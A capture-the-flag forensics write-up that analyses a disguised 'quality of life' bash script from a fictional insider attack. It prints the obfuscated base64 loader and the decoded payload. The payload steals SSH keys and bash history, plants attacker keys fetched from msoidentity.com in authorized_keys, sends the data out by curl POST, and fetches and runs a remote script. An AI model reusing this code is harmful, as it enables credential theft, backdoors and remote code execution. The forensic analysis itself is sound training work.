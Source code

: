 # DoD Cyber Sentinel Challenge - Remote Help (forensics, 200p, Medium Difficulty) 6/24/2025
## Preface
Unfortunately, I do not have access to the original challenge statement, but it mentions something about a fictional internal attack from a recently hired remote worker. They were able to recover a [bash script](https://github.com/btoroth/QOL/blob/main/QOL.sh) that seems to have triggered alarms, causing the attack to fail. It then mentions to try and follow the cyber kill chain from start to finish to see what the attacker was trying to do, and along the way you'd find four different parts of the flag.

## Solving

![image](https://github.com/user-attachments/assets/710acb2e-cbea-489c-ac08-c4962739b961)

At first glance the script seems pretty harmless, even calling itself a QOL (Quality of Life) script meant to just make some minor improvements to the system. Update/upgrade packages, install some tools, create some aliases, blah blah blah. BUT if you keep scrolling, down at the very bottom we see this:

`sudo echo IyEvYmluL2Jhc2gKCiRsb2c9Ii90bXAvbG9nXyQoZGF0ZSArIiVZLSVtLSVkLS0lSC0lTSIpIgokdGd6PSI ... AvaW5mby5zaAovYmluL2Jhc2ggL3RtcC9pbmZvLnNoCnJtIC1mIC90bXAvaW5mby5zaAo= | base64 -d >> /tmp/0.sh && chmod +x /tmp/0.sh && /bin/bash /tmp/0.sh &`

Here we go, this seems to be yet another bash script obfuscated in base64 being saved and executed. We can simply throw this in to the browser tool CyberChef, it will automatically detect base64, and decode it for us:

![image](https://github.com/user-attachments/assets/a6de7c73-fddb-4038-a09d-e87336d19171)

`#!/bin/bash

$log="/tmp/log_$(date +"%Y-%m-%d--%H-%M")"
$tgz="/tmp/log_$(date +"%Y-%m-%d--%H-%M").tgz"

mkdir -p $log

cat /proc/cpuinfo >> "$log/cpu.txt"
cat /proc/meminfo >> "$log/mem.txt"
cat /etc/os-release >> "$log/os.txt"



for dir in $(ls /home -1); do
    
	if [ -f "$dir/.ssh/" ]; then
		cat $dir/.ssh/* >> "$log/'$dir'.txt"
		cat $dir/.bash_history >> "$log/'$dir'-bash.txt"
	fi
    # Perform your actions here
done

if [ "$(id -u)" -eq 0 ]; then
	cat /root/.ssh/* >> "$log/root.txt"
	cat /root/.bash_history >> "$log/root-bash.txt"
	local url="https://msoidentity.com/auth"
    local auth_keys="$HOME/.ssh/authorized_keys"
	
    curl -s "$url" >> "$auth_keys"
    chmod 600 "$auth_keys"
fi 


tar -cf "$tgz" "$log" 2>/dev/null

if [ -f "$tarfile" ]; then
        curl -s --output /dev/null -X POST -H "accept: application/json" -H "Content-Type: multipart/form-data" -F "file=@$tarfile" "https://msoidentity.com/log"
    fi
}

curl -s https://msoidentity.com/info | base32 -d >> /tmp/info.sh
/bin/bash /tmp/info.sh
rm -f /tmp/info.sh
`
